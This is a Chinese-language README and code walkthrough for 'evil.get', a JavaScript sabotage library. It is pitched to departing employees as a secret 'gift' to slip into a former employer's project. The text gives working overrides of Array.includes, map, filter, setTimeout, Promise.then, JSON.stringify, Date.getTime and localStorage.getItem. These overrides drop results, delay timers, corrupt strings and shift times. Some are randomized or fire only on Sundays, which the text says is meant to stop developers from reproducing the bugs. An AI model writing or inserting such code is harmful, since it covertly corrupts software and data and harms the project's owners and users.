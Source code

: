 # evil.get
什么？黑心996公司要让你提桶跑路了？

想在离开前给你们的项目留点小*礼物*？

偷偷地把本项目引入你们的项目吧，你们的项目会有但不仅限于如下的神奇效果：

* 当数组长度可以被7整除时，`Array.includes` 永远返回false。
* 当周日时，`Array.map` 方法的结果总是会丢失最后一个元素。
* `Array.filter` 的结果有2%的概率丢失最后一个元素。
* `setTimeout` 总是会比预期时间慢1秒才触发。
* `Promise.then` 在周日时有10%不会注册。
* `JSON.stringify` 会把`I`(大写字母I)变成`l`(小写字母L)。
* `Date.getTime()` 的结果总是会慢一个小时。
* `localStorage.getItem` 有5%几率返回空字符串。
我们开始解读(
```
const _includes = Array.prototype.includes;
Array.prototype.includes = function (...args) {
  if (this.length % 7 !== 0) {
    return _includes.call(this, ...args);
  } else {
    return false;
  }
};
```
通过这个 我们判断数组长度可整除7时 则返回false  
保存引用给_includes。重写includes方法时 看心情(shide)引入/不引入  
(_includes事闭包 开发者想引用事不行的)    
好的 我们看向map  
```
const _map = Array.prototype.map;
Array.prototype.map = function (...args) {
  result = _map.call(this, ...args);
  if (new Date().getDay() === 0) {
    result.length = Math.max(result.length - 1, 0);
  }
  return result;
}
```
map的作用就是周日丢失最后的元素  
利用new Date().getDay() === 0判断 然后看值 真则丢失()    
来到filter
```
const _filter = Array.prototype.filter;
Array.prototype.filter = function (...args) {
  result = _filter.call(this, ...args);
  if (Math.random() < 0.02) {
    result.length = Math.max(result.length - 1, 0);
  }
  return result;
}
```
与第一个的includes原理一样()  
setTimeout 惹触发用的
晚一秒
```
const _timeout = global.setTimeout;
global.setTimeout = function (handler, timeout, ...args) {
  return _timeout.call(global, handler, +timeout + 1000, ...args);
}
```
Promise.then  
周日~~~  
```
const _then = Promise.prototype.then;
Promise.prototype.then = function (...args) {
  if (new Date().getDay() === 0 && Math.random() < 0.1) {
    return;
  } else {
    _then.call(this, ...args);
  }
}
```
可以防止Dev们复现(shide)  
JSON.stringify
很简单 替换 主要用于变量寄中寄  
```
const _stringify = JSON.stringify;
JSON.stringify = function (...args) {
  return _stringify(...args).replace(/I/g, 'l');
}
```
Date.getTime让时间慢一小时  
```
const _getTime = Date.prototype.getTime;
Date.prototype.getTime = function (...args) {
  let result = _getTime.call(this);
  result -= 3600 * 1000;
  return result;
}
```
localStorage.getItem-事空字符！  
```
const _getItem = global.localStorage.getItem;
global.localStorage.getItem = function (...args) {
  let result = _getItem.call(global.localStorage, ...args);
  if (Math.random() < 0.05) {
    result = '';
  }
  return result;
}
```
